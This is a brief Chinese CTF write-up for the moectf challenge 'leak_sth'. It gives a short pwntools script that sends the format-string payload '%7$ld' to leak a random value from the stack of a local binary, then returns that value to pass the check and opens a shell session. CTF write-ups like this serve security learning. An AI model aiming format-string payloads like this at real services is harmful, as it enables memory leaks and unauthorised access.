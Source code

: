 # moectf leak_sth

by Maple

格式化字符串漏洞读指定位置数据

```python
from pwn import *
p = process('./pwn')
p.send(b'%7$ld')
p.recvuntil('name:\n')
num = int(p.recvuntil('G')[:-1])

p.send(str(num))
p.interactive()
```

![image-20250217105225238](./images/image-20250217105225238.png)

通过`%7$ld`将栈上第7个参数的值读出，也就是读出了随机数v3,至于怎么知道是第7位，~~试出来的~~
